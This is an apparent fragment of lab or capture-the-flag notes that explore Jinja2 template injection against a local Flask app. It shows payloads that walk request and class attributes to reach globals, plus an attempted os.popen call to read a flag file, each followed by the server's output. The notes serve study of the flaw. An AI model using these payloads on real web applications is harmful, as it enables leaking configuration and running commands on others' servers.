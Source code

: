 ```txt
'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 
'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 
'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': 
True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 
'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>! 
```
#### request
- `{{request}}`   
```txt
Hello <Request 'http://192.168.99.100:5000/' [POST]>! 
```
- `{{request.application}}`   
```txt
Hello <bound method BaseRequest.application of <class 'flask.wrappers.Request'>>! 
```
- `{{request.application.globals}}`   
```txt
Hello ! 
```
- `{{request.application.globals.builtins}}`   
```txt
Internal Server Error
```
- `{{request.application.globals.builtins.import(‘os’)}}`   
```txt
Internal Server Error
```
- `{{request.__globals__}}`   
```txt
Hello ! 
```
- `{{request.application.globals.builtins.import(‘os’).popen(‘cat flag.txt’).read()}}`   
```txt
Internal Server Error
```
- `{{request.__class__}}`   
```txt
Hello <class 'flask.wrappers.Request'>!
```
- `{{request.__class__.__dict__}}`   
```txt
Hello {'__module__': 'flask.wrappers', '__doc__': 'The request object used by default in 
Flask. Remembers the\n matched endpoint and view arguments.\n\n It is what ends up as 
:class:`~flask.request`. If you want to replace\n the request object used you can 
subclass this and set\n :attr:`~flask.Flask.request_class` to your subclass.\n\n The 
request object is a :class:`~werkzeug.wrappers.Request` subclass and\n provides all of 
the attributes Werkzeug defines plus a few Flask\n specific ones.\n ', 'url_rule': None, 
'view_args': None, 'routing_exception': None, 'max_content_length': <property object at 
0x7fc672b4fb30>, 'endpoint': <property object at 0x7fc672b4fbd0>, 'blueprint': <property 
object at 0x7fc672b54220>, '_load_form_data': <function Request._load_form_data at 
0x7fc672b42670>}! 
```
- `{{request.__class__.__dict__['_load_form_data']}}`   
```txt
Hello <function Request._load_form_data at 0x7fc672b42670>! 
```
- `{{request.__class__.__dict__['_load_form_data'].__globals__}}`   
`{{session.__class__.__base__.get.__globals__}}`,`{{config.__class__.__init__.__globals__}}`,`{{url_for.__globals__}}`みたなのと同じ出力が得られる。   
```txt
Hello {'__name__': 'flask.wrappers', '__doc__': '\n flask.wrappers\n ~~~~~~~~~~~~~~\n\n 
Implements the WSGI wrappers (request and response).\n\n :copyright: 2010 Pallets\n 
:license: BSD-3-Clause\n', '__package__': 'flask', '__loader__': 
<_frozen_importlib_external.SourceFileLoader object at 0x7fc672bbc610>, '__spec__': 
ModuleSpec(name='flask.wrappers', loader=<_frozen_importlib_external.SourceFileLoader 
object at 0x7fc672bbc610>, origin='/usr/local/lib/python3.9/site-packages/flask...
```